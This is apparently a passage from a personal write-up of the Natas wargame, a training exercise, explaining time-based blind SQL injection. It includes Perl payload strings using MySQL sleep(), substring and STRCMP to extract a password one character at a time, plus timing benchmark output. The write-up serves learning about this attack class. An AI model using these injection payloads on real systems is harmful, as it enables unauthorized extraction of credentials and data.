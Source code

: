 And here is what I saw:

```
20 trials of natas18 (10.983s total), 549.156ms/trial
20 trials of asdfasdf (10.928s total), 546.406ms/trial
```

Crap... that does not seem to be the case.... but... what if we introduced the delay! So, I found out that doing sql injection without visual feedback is literally called blind sql injection. And that there are levels: from normal blind (in which you may not see something obvious on the page, but perhaps a response header or status will cue you) to totally blind in which there is absolutelly no difference.

So I searched for Totally Blind SQL injection and learned about MySQL's `sleep(n)` function and how we can use it to exploit stuff.

We can basically chain together logical predicates that will or will not include the delay and that is how you fly blind!

For example, re running the benchmark above but with payload as:

```perl
my $payload = "natas18\" and BINARY substring(password, $index, 1) = \"$char\" and sleep(2) #"
```

if the `$char` at `$index` of `password` matches, there will be a delay, if not, it will return fast.

But, the delay on the requests makes it slow to linearly break the pass via bruteforce here. So let's attempt a binary search style bruteforce. First we'll have to learn how mysql deals with string comparisons.

```sql
STRCMP(expr1,expr2)

STRCMP() returns 0 if the strings are the same, -1 if the first argument is smaller than the second according to the current sort order, and 1 otherwise.

mysql> SELECT STRCMP('text', 'text2');
        -> -1
mysql> SELECT STRCMP('text2', 'text');
        -> 1
mysql> SELECT STRCMP('text', 'text');
        -> 0
```

So, say we have these characters, in presumably ascending order:

```perl
my @possible_characters = split('', '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz');
```

Using `strcmp` along with `substring` we can use binary search over the possible chars array to make discovery faster.

```perl
my $payload = "natas18\" and strcmp(BINARY substring(password, $index, 1), \"$char\") > 0 and sleep(5) #"
```
